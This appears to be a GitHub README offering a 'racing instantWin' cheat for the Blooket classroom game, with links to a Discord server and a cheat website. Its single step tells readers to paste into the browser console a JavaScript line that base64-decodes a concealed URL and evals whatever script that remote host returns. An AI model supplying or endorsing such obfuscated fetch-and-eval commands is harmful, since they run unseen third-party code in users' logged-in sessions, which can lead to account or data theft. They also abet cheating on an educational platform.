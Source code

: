 **Discord server: https://discord.gg/K5xUbuDqmG**

**These bookmarklets are also on: https://schoolcheats.net/blooket**

# racing 

This cheat only works in racing game mode!

# instantWin.js

Open console (ctrl + shift + j) and paste the following:
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL3JhY2luZ0luc3RhbnRXaW4uanM=')).then((res) => res.text().then((t) => eval(t)))
```
